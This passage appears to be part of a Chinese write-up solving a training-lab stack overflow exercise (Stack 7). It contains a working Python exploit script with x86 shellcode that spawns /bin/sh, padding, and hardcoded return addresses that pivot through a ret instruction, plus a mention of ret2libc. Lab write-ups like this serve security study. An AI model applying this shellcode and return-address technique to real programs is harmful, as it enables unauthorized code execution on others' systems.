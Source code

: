 同上题一样，将`getpath()`的返回地址更改为`main()`函数的`ret`指令的地址，间接跳转到我们输入的shell code：

``` python
#!/usr/bin/python
#coding=utf-8

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80" + "\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80" + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

#print len(shellcode)
print shellcode + (80 - len(shellcode)) * '\x90' + '\x53\x85\x04\x08' + '\xfc\xf7\xff\xbf'
```

结果：

![Stack 7](stack7_0.png)

但是此题却无法使用之前较短的23bytes的shell code，尚不知原因。

另外也可以用ret2libc的方法来解决此题，只是中间要利用另外的`ret`指令多一步跳转，转至`system()`函数。
